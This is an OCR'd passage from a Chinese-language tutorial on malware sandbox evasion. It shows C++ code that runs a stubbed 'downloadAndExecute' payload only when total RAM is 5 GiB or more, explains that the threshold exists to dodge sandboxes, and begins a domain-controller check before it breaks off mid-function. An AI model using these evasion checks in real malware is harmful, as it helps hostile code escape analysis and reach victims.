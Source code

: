     int main() {
        if (memoryCheck() == TRUE) {
            cout << "Memory check passed. Proceeding..." << endl;
            downloadAndExecute();
        } else {
            cout << "Memory check failed. Exiting..." << endl;
            // In a real scenario, exit quietly: return 1; or similar
        }
        return 0;
    }
    ```
    
- **`memoryCheck` 函数步骤解析**:
    1. 声明 `MEMORYSTATUSEX` 结构体变量 `statex`。
    2. 将 `statex.dwLength` 设置为 `sizeof(statex)`，这是调用 `GlobalMemoryStatusEx` API 的前置要求。
    3. 调用 `GlobalMemoryStatusEx(&statex)` 填充内存信息到 `statex` 结构体。
    4. 获取 `statex.ullTotalPhys` (总物理内存，单位：字节)，将其转换为 GiB。
    5. 检查转换后的内存大小是否大于等于 5.00 GiB。大多数沙箱分配的 RAM 少于此值 (例如，4GB)。
    6. 如果内存大于等于 5.00 GiB，返回 `TRUE`；否则返回 `FALSE`。
- **`main` 函数逻辑**: 调用 `memoryCheck()`，如果返回 `TRUE`，则继续执行恶意载荷 (此处模拟为 `downloadAndExecute()`)；否则，程序退出。

##### 4. 查询网络信息 (Querying Network Information) - 示例：检查是否存在域控制器

- **C++ 示例 (使用 `NetGetDCName` 获取域控制器名称)**: C++
    
    C++
    
    ```
    #include <iostream>
    #include <Windows.h>
    #include <lm.h> // For NetGetDCName and NetApiBufferFree
    #include <string>
    
    #pragma comment(lib, "Netapi32.lib")
    
    using namespace std;
    
    // Dummy function for illustration
    void downloadAndExecute() {
        cout << "Shellcode download and execution simulated." << endl;
    }
    
    BOOL isDomainJoinedEnvironment() { // Renamed for clarity
        LPWSTR dcName = nullptr; // Pointer to hold the DC name
        NET_API_STATUS nStatus;
    
        // Query for the Domain Controller Name of the primary domain
        nStatus = NetGetDCName(NULL, NULL, (LPBYTE *)&dcName);
    
        if (nStatus == NERR_Success && dcName != nullptr) {
            // A DC name was successfully retrieved.
            // The dcName will be in the form of \\HOSTNAME
            // We can check if it starts with \\
            wstring ws(dcName);
            NetApiBufferFree(dcName); // Free the buffer allocated by NetGetDCName
    